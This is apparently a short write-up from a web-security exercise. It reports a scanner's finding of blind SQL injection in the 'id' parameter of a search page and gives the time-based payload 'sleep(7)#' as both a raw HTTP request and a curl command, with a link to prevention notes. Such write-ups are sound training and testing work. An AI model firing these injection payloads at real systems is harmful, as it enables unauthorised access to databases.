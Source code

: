 # SQL Injection /?page=searchimg

## Wapiti Report
Blind SQL vulnerability via injection in the parameter id
`GET /?page=searchimg&id=sleep%287%29%231&Submit=Submit HTTP/1.1`
Host: 10.13.200.53
Referer: http://10.13.200.53/?page=searchimg
curl "http://10.13.200.53/?page=searchimg&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/?page=searchimg"

## Prevention 
See: [SQL Injection Prevention](../../sql_injection_member/Resources/sql_injection_member.md#prevention)
